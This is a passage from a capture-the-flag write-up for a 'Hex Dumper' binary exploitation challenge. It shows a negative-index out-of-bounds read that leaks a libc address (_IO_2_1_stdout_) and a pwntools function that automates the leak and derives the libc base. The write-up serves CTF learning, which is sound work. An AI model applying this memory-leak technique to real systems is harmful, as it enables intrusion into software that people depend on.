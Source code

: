 ```txt
____    ____                         ________                                                      
`MM'    `MM'                         `MMMMMMMb.                                                    
 MM      MM                           MM    `Mb                                                    
 MM      MM   ____  ____   ___        MM     MM ___   ___ ___  __    __  __ ____     ____  ___  __ 
 MM      MM  6MMMMb `MM(   )P'        MM     MM `MM    MM `MM 6MMb  6MMb `M6MMMMb   6MMMMb `MM 6MM 
 MMMMMMMMMM 6M'  `Mb `MM` ,P          MM     MM  MM    MM  MM69 `MM69 `Mb MM'  `Mb 6M'  `Mb MM69   
 MM      MM MM    MM  `MM,P           MM     MM  MM    MM  MM'   MM'   MM MM    MM MM    MM MM'    
 MM      MM MMMMMMMM   `MM.           MM     MM  MM    MM  MM    MM    MM MM    MM MMMMMMMM MM     
 MM      MM MM         d`MM.          MM     MM  MM    MM  MM    MM    MM MM    MM MM       MM     
 MM      MM YM    d9  d' `MM.         MM    .M9  YM.   MM  MM    MM    MM MM.  ,M9 YM    d9 MM     
_MM_    _MM_ YMMMM9 _d_  _)MM_       _MMMMMMM9'   YMMM9MM__MM_  _MM_  _MM_MMYMMM9   YMMMM9 _MM_    
                                                                          MM                       
                                                                          MM                       
                                                                         _MM_                      
=========== DUMP MENU ===========
1) Create a new dump
2) Hexdump a dump
3) Bite a byte
4) Merge two dumps
5) Resize dump
6) Remove dump
7) Dump all dumps
8) Dump the dump menu
0) Coredump

==> 3
	Dump index: -80
	Offset: 9999999999999999999999999                                
	Offset is bigger than dump size. 18446744073709551615 >= 140737353750400

==>
```

as you can see the program prints some value that was stored relative to index `-80`,
now lets check wich address space that address is belong to:
![libc leak](/assets/images/ctf-writeups/BTS2025/libc-leak.png)

and it points to:

![leak symbol](/assets/images/ctf-writeups/BTS2025/leak-symbol.png)

So we can see that this is a libc address that points to the `_IO_2_1_stdout_` object.
now lets write that in our pwntools exploit:
```py
def leak_libc(p: process):
    send_option(p, "3")
    p.sendline("-80") 
    p.sendline(str(0xffff_ffff_ffff_ffff))
    p.recvuntil(">= ")
    libc = int(p.recvline()[:-1]) - 0x21b780 # offset of _IO_2_1_stdout_
    print("libc: ", hex(libc))
    return libc
```
